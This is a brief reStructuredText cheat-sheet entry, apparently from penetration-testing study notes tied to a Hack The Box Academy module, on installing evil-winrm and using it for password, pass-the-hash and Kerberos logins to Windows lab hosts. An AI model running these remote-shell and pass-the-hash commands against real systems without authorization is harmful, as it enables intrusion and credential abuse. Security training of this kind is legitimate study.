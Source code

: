 ############
evil-winrm
############


Date: 2024-11-29 18:42

Status:

Tags:

*****************
Description
*****************
A tool to interactively communicate with the service  :ref:`winrm`


*************
installation
*************
.. code-block:: console

    sudo gem install evil-winrm



*****************
Usage
*****************

Example 1: Using a password

.. code-block:: console

    evil-winrm -i <targetIP> -u <username> -p <password>

Example 2: Using PTH (pass the hash)

.. code-block:: console
    
    evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"

Example 3: Using Kerberose authentication

.. code-block:: console

    evil-winrm -i dc01 -r inlanefreight.htb


*****************
References
*****************
https://academy.hackthebox.com/module/147/section/1327
